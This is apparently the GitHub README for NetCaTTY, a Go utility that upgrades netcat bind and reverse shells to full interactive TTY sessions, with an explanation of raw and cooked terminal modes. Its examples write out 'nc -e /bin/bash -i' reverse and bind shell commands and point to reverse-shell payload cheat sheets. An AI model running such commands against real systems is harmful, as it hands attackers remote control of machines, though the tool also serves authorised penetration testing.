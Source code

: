 # NetCaTTY

A simple TCP socket utility that gives you a TTY, either by listening or by
connecting to a remote.

## Why do I need a TTY?

It's like comparing a netcat shell to SSH. SSH is able to pass EVERYTHING that
you type to the remote. `Ctrl-C`, `Ctrl-Z` and friends work as expected and you
don't kill your session. The way that SSH achieves that behaviour is by spawning
the target process (shell) inside a PTY (a pseudo-TTY), putting the local
PTY (that your terminal gives you) in "raw mode", where the program is able
to handle all keystrokes, and forwards them to the remote PTY.

## How does this work?

Well it's mostly arcane magic, as TTYs (and by extent PTYs) are an ancient
technology used in teletypes (TeleTYpewriter and Pseudo-TeletYpewriter),
written around the 60s where everyone had no idea what they're doing and
drugs where at their best. So I'm not exactly sure, but I'm gonna try to explain
what I have in my head right now - if you wanna read the real thing and not
what I figured out by trial and error in 2 days,
read [this](http://www.linusakesson.net/programming/tty/index.php).

It's something like a buffer between the running program (`bash -i` lets say)
and the stdin (keyboard?). It has two modes (or more? I saw some weird
flags in termios): raw and cooked.

In cooked mode, the input is buffered line by line, so that `Ctrl-D`,
`Backspace` and other keys can be processed. This is the default mode when
you get input from stdin in your program.

In raw mode on the other hand, everything (or most things?) are passed to the
program (even `Backspace` and `Ctrl-C`) and it handles them itself. Even
character echo is disabled (where every character you type is displayed
on the screen).

So what we need to achieve is a cooked PTY on the remote (so it handles `Ctrl-C`
locally) where will take stdin from us and send stdout to us

The problems on achieving a cooked mode on the remote with the remote shell
are that first of all your local PTY is in cooked mode (so your netcat doesn't
ever receive that `Delete` character, your PTY handles it) and even if you put
your PTY in raw mode, the remote has no PTY at all, as it was spawned by another
process (like `exec`).

So the first problem is kinda trivial, you put your PTY in raw mode - and I say
kinda because nobody has documented this shit enough in a language like Go
or Python.

The second problem is not that easy to solve. You need to open a PTY and spawn
a process inside it like you would do in your terminal (so `bash` and `bash -i`
will work the same, as most programs understand that they're inside a PTY and
start in interactive mode) and proxy your stdin (got from the local raw PTY) to
the remote's cooked PTY stdin, and do the reverse for stdout.

Now this problem is a real pain, cause nobody does that, especially in any
language other than C. I've found solutions to that for some shells
(like `import pty; pty.spawn("bash")` for python) and I've integrated them into
the tool.

## Examples

Please don't hurt puppers or kitties with them!

If you're short on ideas for payloads, check the following:

 - msfvenom
 - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) by [swisskyrepo](https://github.com/swisskyrepo)
 - [oneliner.sh](https://github.com/operatorequals/oneliner-sh) by [operatorequals](https://github.com/operatorequals) 

### Bind shell

Target machine (with IP 192.168.1.1): `nc -e "/bin/bash -i" -lp 4444`

Your terminal: `./netcatty -a 192.168.1.1:4444`

### Reverse shell

Target machine: `nc -e "/bin/bash -i" 192.168.1.100 4444`

Your terminal (with IP 192.168.1.100): `./netcatty -l :4444`

## Installation

Compile it on your own:

```bash
git clone https://github.com/dzervas/netcatty
cd netcatty
go run netcatty.go -h
```

## Usage

```
Usage of ./netcatty:
  -a string
    	Listen/Connect address in the form of 'ip:port'.
    	Domains, IPv6 as ip and Service as port ('localhost:http') also work. (default ":4444")
  -l	Enable listening mode
  -m	Disable automatic shell detection and TTY spawn on remote
  -n string
    	Network type to use. Known networks are:
    	To connect: tcp, tcp4 (IPv4-only), tcp6 (IPv6-only), unix and unixpacket
    	To listen: tcp, tcp4, tcp6, unix or unixpacket
    	 (default "tcp")
```

---

Credits at [operatorequals](https://github.com/operatorequals) for making me
write this and at [mattn](https://github.com/mattn) for creating [go-tty](https://github.com/mattn/go-tty).
